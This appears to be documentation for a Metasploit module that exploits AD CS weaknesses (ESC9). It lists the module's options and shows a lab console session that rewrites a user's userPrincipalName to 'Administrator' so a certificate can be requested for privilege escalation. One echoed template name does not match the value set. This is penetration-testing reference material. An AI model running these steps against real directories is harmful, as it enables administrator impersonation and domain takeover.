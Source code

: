 ### UPDATE_LDAP_OBJECT_VALUE
The new value to set for the specified LDAP attribute, set this to the user name you wish to impersonate, e.g., `Administrator` if you're updating the `userPrincipalName`.
If you're updating the `dNSHostName`, set this to the desired DNS hostname, e.g., `host.domain.local` (it must be a valid FQDN in this case).

### ALT_UPN
An alternate UPN (User Principal Name) to set for the target user, e.g., `Administrator@domain.local`.

### ALT_SID
An alternate SID (Security Identifier) to set for the target user, e.g., `S-1-5-21-...`.

### ALT_DNS
An alternate DNS hostname to set for the target user, e.g., `host.domain.local`.

## Verification Steps

1. Start msfconsole
1. Do: `use esc_update_ldap_object`
1. Set the `RHOST`, `LDAPUsername`, `LDAPPassword` and `LDAPDomain` options - note these credentials need to have write access over the `TARGET_USERNAME`
1. Set `TARGET_USERNAME` to the user you want to update and then request a certificate for
1. Set the `UPDATE_LDAP_OBJECT` to either `userPrincipalName` or `dNSHostName` depending on the scenario you are exploiting
1. Set the `UPDATE_LDAP_OBJECT_VALUE` to the value you want to set for the `UPDATE_LDAP_OBJECT`, e.g., `Administrator`
2. Set `CA` to the name of the CA you want to request a certificate and `cert_template` to the name of the certificate template you want to use
1. Run the module
1. This should update the LDAP object attribute and request a certificate for the target user, which will be saved as a .pfx file.
2. If the target is vulnerable to the scenario you are exploiting, the pfx file will allow for privilege escalation.

## Scenarios

### ESC9 - Update userPrincipalName to Administrator
```
msf6 auxiliary(admin/dcerpc/esc_update_ldap_object) > set rhosts 172.16.199.200
rhosts => 172.16.199.200
msf6 auxiliary(admin/dcerpc/esc_update_ldap_object) > set ldaprport 389
ldaprport => 389
msf6 auxiliary(admin/dcerpc/esc_update_ldap_object) > set target_username user2
target_username => user2
msf6 auxiliary(admin/dcerpc/esc_update_ldap_object) > set ldapdomain kerberos.issue
ldapdomain => kerberos.issue
msf6 auxiliary(admin/dcerpc/esc_update_ldap_object) > set ldappassword N0tpassword!
ldappassword => N0tpassword!
msf6 auxiliary(admin/dcerpc/esc_update_ldap_object) > set ldapusername user1
ldapusername => user1
msf6 auxiliary(admin/dcerpc/esc_update_ldap_object) > set cert_template ESC9-Template
cert_template => SpencerTest
msf6 auxiliary(admin/dcerpc/esc_update_ldap_object) > set ca kerberos-DC2-CA
ca => kerberos-DC2-CA
msf6 auxiliary(admin/dcerpc/esc_update_ldap_object) > set UPDATE_LDAP_OBJECT_VALUE Administrator
UPDATE_LDAP_OBJECT_VALUE => Administrator
msf6 auxiliary(admin/dcerpc/esc_update_ldap_object) > run
[*] Running module against 172.16.199.200
[*] 172.16.199.200:445 - Loading auxiliary/admin/ldap/ldap_object_attribute
[*] 172.16.199.200:445 - Running auxiliary/admin/ldap/ldap_object_attribute
```